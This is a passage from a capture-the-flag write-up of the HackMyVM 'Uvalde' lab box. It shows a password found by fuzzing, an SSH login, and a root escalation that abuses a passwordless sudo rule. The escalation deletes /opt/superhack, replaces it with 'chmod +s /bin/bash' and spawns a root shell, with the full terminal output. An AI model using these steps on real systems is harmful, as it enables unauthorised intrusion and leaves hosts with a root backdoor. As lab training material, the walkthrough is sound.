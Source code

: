 using wfuzz instead to fuzz cause ffuf did not bring the expected result. we got the password for user `matthew:matthew2023@1554` now let's login. 

![image](https://user-images.githubusercontent.com/87468669/221418553-f57c5618-a12a-4c73-8ef0-741ca41a5014.png)

logged in as user `matthew`, got the same page under construction. let's try login ssh using the password.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/Hackmyvm/Uvalde]
└─$ ssh matthew@192.168.0.102
The authenticity of host '192.168.0.102 (192.168.0.102)' can't be established.
ED25519 key fingerprint is SHA256:S2tp/jV32/GtUP68f14Rac4/yZXhbMmyut+ZqO+ZOl4.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.102' (ED25519) to the list of known hosts.
matthew@192.168.0.102's password: 
Permission denied, please try again.
matthew@192.168.0.102's password: 
Linux uvalde.hmv 5.10.0-20-amd64 #1 SMP Debian 5.10.158-2 (2022-12-13) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
matthew@uvalde:~$ id
uid=1000(matthew) gid=1000(matthew) groups=1000(matthew)
matthew@uvalde:~$ whoami 
matthew
matthew@uvalde:~$ 
```
boom!!! we are in a user `matthew` 


## Privilege Escalation

```
matthew@uvalde:~$ sudo -l
Matching Defaults entries for matthew on uvalde:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User matthew may run the following commands on uvalde:
    (ALL : ALL) NOPASSWD: /bin/bash /opt/superhack
matthew@uvalde:~$ 
```
by checking sudo permission, we can see we can run `/bin/bash /opt/superhack` as sudo without password. let's check the content of this file

```
matthew@uvalde:/opt$ rm -rf superhack 
matthew@uvalde:/opt$ echo "chmod +s /bin/bash" > superhack
matthew@uvalde:/opt$ sudo -u root /bin/bash /opt/superhack
matthew@uvalde:/opt$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
matthew@uvalde:/opt$
matthew@uvalde:/opt$ /bin/bash -p 
bash-5.1# id && whoami
uid=1000(matthew) gid=1000(matthew) euid=0(root) egid=0(root) groups=0(root),1000(matthew)
root
bash-5.1#
```
deleted the superhack file, create a new one with suid. doing `/bin/bash -p` gave us a root shell.
